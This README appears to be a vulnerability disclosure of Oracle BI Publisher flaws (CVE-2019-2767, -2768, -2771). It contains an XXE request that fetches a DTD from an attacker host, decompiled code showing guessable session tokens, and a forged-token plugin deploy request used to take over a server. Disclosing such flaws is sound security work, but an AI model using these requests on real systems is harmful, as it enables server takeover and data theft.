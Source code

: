 # Oracle-BI-bugs

## CVE-2019-2767
 * Subject: XXE IN CONVERT SERVLET
 * CVSSv3.0 Base Score: 7.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
 
```
GET /xmlpserver/convert?xml=<%3fxml+version%3d"1.0"+%3f><!DOCTYPE+r+[<!ELEMENT+r+ANY+><!ENTITY+%25+sp+SYSTEM+"http%3a//ehost%3a1337/ev.xml">%25sp%3b%25param1%3b]>&_xf=Excel&_xl=123&template=123 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflat
Connection: close
Upgrade-Insecure-Requests: 1
```

## CVE-2019-2768
 * Subject: ACCESS TO ADMIN SERVICES, SESSION GENERATION ERROR
 * CVSSv3.0 Base Score: 7.5
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
 
Oracle BI has xmlpserver which uses an administrator to configure the server. To use xmlpserver services, the administrator needs to create a session using createSession function.
```
POST /xmlpserver/services/XMLPService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 610

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:rep="http://xmlns.oracle.com/oxp/service/report">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:createSession soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">weblogic</username>
         <password xsi:type="xsd:string">asdQWE123</password>
         <domain xsi:type="xsd:string">bi</domain>
      </rep:createSession>
   </soapenv:Body>
</soapenv:Envelope>

```
I tried to generate a session a few time and I got the same value in the response. I changed the password and but again I got 

```
<createSessionReturn xsi:type="xsd:string">-1626402211</createSessionReturn>
```
![session](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/sess1.jpg)

```java
private String createCallerSession(final XDOPrincipal user, final String domain) {
        Logger.log("XMLPService.createCallerSession...if here things are looking ok", 1);
        final String token = tokenize(domain, user.getName());
        final XDOPrincipal principal = TokenHolder.getPrincipal(token);
        if (principal == null) {
            final XDOPrincipal guser = (XDOPrincipal)GlobalUser.get();
            TokenHolder.addPrincipal(token, guser);
        }
        return token;
    }
    
    private static String tokenize(final String domain, final String username) {
        final StringBuffer sb = new StringBuffer();
        if (domain != null) {
            sb.append(domain);
        }
        sb.append(':').append(username);
        final int key = sb.toString().hashCode();
        return new Integer(key).toString();
    }
```
WHAT? Is the session consists of two public datas (username and server ID)? I tried to write a simple code here what I got
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/hash.png)


Example of plugin deploy request
```
POST /xmlpserver/services/v2/PluginService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 431

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:v2="http://xmlns.oracle.com/oxp/service/v2">
   <soapenv:Header/>
   <soapenv:Body>
      <v2:deploy>
         <v2:sessionToken>-1626402211</v2:sessionToken>
         <v2:appPath>0</v2:appPath>
         <v2:pluginName>1</v2:pluginName>
         <v2:uploadedData>2</v2:uploadedData>
      </v2:deploy>
   </soapenv:Body>
</soapenv:Envelope>
```
so, as a result, you can take control of a server if you know 2 public data of server.


## CVE-2019-2771
 * Subject: BIP BYPASS FONT UPLOAD
 * CVSSv3.0 Base Score: 8.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:L
 
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f1.png)

![upload](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f2.png)

![write file](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f3.png)

![file on the system](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f4.png)
